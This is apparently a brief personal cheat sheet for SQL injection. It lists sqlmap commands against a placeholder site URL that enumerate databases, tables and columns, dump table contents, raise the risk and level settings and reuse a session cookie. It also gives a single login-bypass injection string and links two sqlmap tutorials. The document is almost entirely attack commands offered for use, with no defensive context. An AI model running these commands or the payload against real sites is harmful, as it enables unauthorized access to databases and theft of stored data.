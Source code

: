 # SQLMAP

1. situsanda.com/news.php?id=1
2. python2 sqlmap.py "situsanda.com/news.php?id=1" --dbs
3. python2 sqlmap.py "situsanda.com/news.php?id=1" --tables -D situsanda
4. python2 sqlmap.py "situsanda.com/news.php?id=1" --columns -D namadatabase -T namatabel
5. python2 sqlmap.py "situsanda.com/news.php?id=1" --dump -D namadatabase -T namatabel
6. python2 sqlmap.py "situsanda.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "situsanda.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi'

# SQL Injection
1. ' or 1=1 limit 1 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
